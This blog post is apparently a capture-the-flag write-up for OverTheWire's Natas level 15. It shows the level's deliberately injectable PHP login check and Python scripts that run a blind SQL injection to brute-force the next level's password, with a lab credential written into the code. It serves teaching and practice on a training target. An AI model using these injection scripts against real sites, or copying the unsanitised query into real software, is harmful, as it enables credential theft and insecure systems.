 ```yaml
---
layout: post
title:  "Natas Level 15"
date:   2015-09-29 12:10
categories: natas wargame web overthewire
author: Nate
---
```


## NATAS 15

![natas15](/images/natas15.png)

NATAS 15 demonstrates how confirming the contents of a username can be combined with a SQL Injection vulnerability to enable what's called a Blind SQL Injection attack.  If we click on the View sourcecode link shown in the screenshot above, we can once again view the server-side PHP script that the challenge author made available to us (see below).

{% highlight html linenos %}
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas15", "pass": "<censored>" };</script></head>
<body>
<h1>natas15</h1>
<div id="content">
<?

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas15', '<censored>');
    mysql_select_db('natas15', $link);

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
<input type="submit" value="Check existence" />
</form>
<? } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
{% endhighlight %}

The first thing we notice is that once again, just like NATAS 14, the user input is retrieved using the built-in $_REQUEST variable array.
The $_REQUEST array in PHP contains the contents of HTTP cookies, HTTP POST, and HTTP GET.  If you're familiar with PHP, you should notice that this input isn't being sanitized before the value is placed in the SQL query to the database.

At first glance, it doesn't appear that there is much you can do even if your SQL injections were successful because the script doesn't echo the query results back to the client.

However, there are two subtle hints that we're meant to pay attention to.  First, we're given the structure of the users table.  The users table has two columns: username, and password - and they both accept a maximum of 64 characters.  Coincidentally, we need a username and password to get to the next challenge.  Second, since the username input isn't sanitized, when we perform a SQL injection, the page will at least confirm whether our SQL query returns a row in the database.

This leads us to conclude that a blind sql injection attack must be possible.  Our attempt at asking the database whether a password value exists (injected after the username) would be made easier if we already had a valid username.  Since we're trying to get to NATAS 16, I naturally tried natas16 as a username.

![username_natas16](/images/natas15_username_natas16.png)

Conveniently for us, natas16 is a valid username.

![username_exists](/images/natas15_username_exists.png)

Great.  Now all we need to do is guess a 64 alphanumeric password!  Actually, it's not that hard.  MySQL provides a few convenient string comparison features that will make this effort a lot less taxing.

First, instead of asking mysql if the password = 'string_value', which will return true if there is an exact match in the database, the LIKE keyword will perform a string comparison on a per-character basis.  You can check out the documentation here: 

https://dev.mysql.com/doc/refman/5.0/en/string-comparison-functions.html

Second, since we don't know the collation of the password field, and we want to ensure our string comparisons are case-sensitive, we can use the BINARY keyword to force a case-sensitive comparison.  More information on this keyword is available in the documentation here:

https://dev.mysql.com/doc/refman/5.0/en/charset-binary-op.html

Finally, MySQL allows the use of wildcards in your string comparisons.  This will allow us to essentially ask the database if username natas16 has a password that contains a given character anywhere in the string.

So the way to solve this challenge is to use the confirmation of the user existing to inject an additional query to ask whether the username AND password together is found in the database.  Our blind sql injection will be combined with a brute force attack to ask about every alphanumeric character until we find a match.  However, to make things easier, we'll first establish the list of characters that exist in the password before we try to brute force guess the exact order that those characters are found.

The SQL Query will look something like this:
{% highlight sql %}
SELECT * from users where username="natas16" and password LIKE BINARY "%W%"
{% endhighlight %}

You can achieve this effort by typing these characters by hand into the GET parameters of the URL in your browser,
{% highlight %}
http://natas15.natas.labs.overthewire.org/index.php?username=natas16%22+and+password+LIKE+BINARY+%22%W%&debug
{% endhighlight %}

but that's going to take a long time, and we all value our time.  Instead, I wrote a python script to do it for me.

{% highlight python linenos %}
#!/bin/python
import requests,string

url = "http://natas15.natas.labs.overthewire.org"
auth_username = "natas15"
auth_password = "AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J"

# characters = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'
characters = ''.join([string.ascii_letters,string.digits])

# Begin by building a dictionary of characters found in the password
# This will greatly decrease the complexity for our brute force attempts
password_dictionary = []
exists_str = "This user exists."
for char in characters:
    uri = ''.join([url,'?','username=natas16"','+and+password+LIKE+BINARY+"%',char,'%','&debug'])
    r = requests.get(uri, auth=(auth_username,auth_password))
    if exists_str in r.text:
        password_dictionary.append(char)
        print("Password Dictionary: {0}").format(''.join(password_dictionary))
print("Dictionary build complete.")
print("Dictionary: {0}").format(''.join(password_dictionary))
{% endhighlight %}

This script will establish a list of all the alphanumeric characters found in the password for natas16.  We confirm each character exists by parsing the result of the GET request for "This user exists." .  Once this list is built, we'll have a much smaller range of characters to brute force guess the password.

Now, we'll take that list and start guessing the password:

{% highlight python linenos %}
# Given the dictionary of characters we just built, we'll try each character in that list
print("Now attempting to brute force...")
password_list = []
password = ''
for i in range(1,64):
    for char in password_dictionary:
        test = ''.join([password,char])
        # Build the GET Request
        uri = ''.join([url,'?','username=natas16"','+and+password+LIKE+BINARY+"',test,'%','&debug'])
        # Send the HTTP GET request to the server
        r = requests.get(uri, auth=(auth_username,auth_password))
        # Parse the HTTP response
        if exists_str in r.text:
            password_list.append(char)
            password = ''.join(password_list)
            print("Length: {0}, Password: {1}").format(len(password),password)
{% endhighlight %}

![brute_force](/images/natas15_brute_force.png)

And that's it.  The password is the 32 character string at the bottom of the image.  To get to the next stage, navigate to http://natas16.natas.labs.overthewire.org/ and enter the username and password at the prompt.
